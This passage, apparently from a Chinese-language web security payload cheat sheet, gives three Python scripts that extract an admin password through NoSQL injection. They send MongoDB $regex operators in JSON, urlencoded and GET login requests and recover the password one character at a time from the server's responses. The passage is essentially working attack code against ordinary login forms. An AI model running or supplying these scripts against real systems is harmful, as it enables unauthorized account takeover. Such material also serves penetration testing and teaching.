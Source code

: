```python
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'OK' in r.text or r.status_code == 302:
                print("发现新字符: %s" % (password+c))
                password += c
```

### 带 urlencoded 请求体的 POST 请求

Python 脚本：

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|','&','$']:
            payload='user=%s&pass[$regex]=^%s&remember=on' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if r.status_code == 302 and r.headers['Location'] == '/dashboard':
                print("发现新字符: %s" % (password+c))
                password += c
```

### GET 请求

Python 脚本：

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username='admin'
password=''
u='http://example.org/login'

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|', '#', '&', '$']:
            payload=f"?username={username}&password[$regex]=^{password + c}"
            r = requests.get(u + payload)
            if 'Yeah' in r.text:
                print("发现新字符: %s" % (password+c))
                password += c
                break
```
